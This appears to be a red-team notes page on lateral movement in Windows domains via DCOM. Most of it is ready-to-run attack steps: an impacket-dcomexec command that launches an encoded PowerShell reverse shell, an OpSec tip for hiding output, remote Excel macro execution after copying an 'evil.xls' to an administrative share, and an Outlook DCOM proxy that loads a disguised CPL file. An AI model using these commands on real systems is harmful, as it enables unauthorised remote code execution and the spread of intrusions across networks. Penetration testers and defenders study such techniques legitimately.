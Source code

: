 ```yaml
---
title: DCOM Lateral Movement
---
```


[[notes/lateral-movement/index]] over [[notes/network/dcom]].

Execute a reverse shell.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-dcomexec -k -no-pass -nooutput srv01.corp.com "powershell.exe -ep bypass -e $(iconv -t utf16le ./shell.ps1 | base64 -w0)"
    ~~~

    **OpSec:**
    The command output is written to a file and downloaded over SMB.
    This can be avoided by specifying `-nooutput`.

Untested tools:

- [CheeseDcom](https://github.com/klezVirus/CheeseTools#cheesedcom), implements many different methods in C#

References:

- [Windows Lateral Movement Part 2 – DCOM](http://web.archive.org/web/20230322175432/https://www.mdsec.co.uk/2020/09/i-like-to-move-it-windows-lateral-movement-part-2-dcom/), using `ExecuteExcel4Macro` or `RegisterXLL`
- [Lateral movement using Internet Explorer DCOM object and StdRegProv](http://web.archive.org/web/20230224075848/https://scribe.rip/@VakninHai/lateral-movement-using-internet-explorer-dcom-object-and-stdregprov-4f11362650e5)
- [Lateral movement using DCOM objects and C#](http://web.archive.org/web/20230101172433/https://klezvirus.github.io/RedTeaming/LateralMovement/LateralMovementDCOM/)
- [Unorthodox lateral movement: Stepping away from standard tradecraft](./unorthodox-lateral-movement.pdf), page 31 ff.

# Excel.Application

Check target `192.168.12.13`.

~~~ powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgId('Excel.Application', '192.168.12.13'))
$com | Get-Member
~~~

Create new Excel document.
Select `View/Macros`, give the macro the name `mymacro` and insert the following VBA payload.

~~~ vba
Sub mymacro()
  shell("calc.exe")
End Sub
~~~

Then save the excel sheet in the old `*.xls` format.

Copy the document.

~~~ powershell
cp ./evil.xls \\192.168.12.13\c$\evil.xls
~~~

When Excel is started trough DCOM it runs in system context and complains about missing folders in its home directory.

~~~ powershell
mkdir \\192.168.1.110\c$\Windows\sysWOW64\config\systemprofile\Desktop
~~~

Run the macro.

~~~ powershell
$workbook = $com.Workbooks.Open('C:\evil.xls')
$workbook.Run('mymacro')
~~~

# Outlook.Application + CPL file

Remote access to some DCOM objects is blocked.
`Outlook.Application` can be used as a proxy to bypass this restriction.

Load CPL file via DCOM.

~~~ powershell
$a = [System.Activator]::CreateInstance([type]::GetTypeFromCLSID("0006F033-0000-0000-C000-000000000046", "ws01.corp.com"))
$b = $a.CreateObject("Shell.Apllication")
$b.ControlPanelItem("%TEMP%\windefend.cpl")
~~~

References:

- [TROOPERS22: Unorthodox Lateral Movement: Stepping Away from the Standard Tradecraft](https://www.youtube.com/watch?v=z3kUwvunBIo)
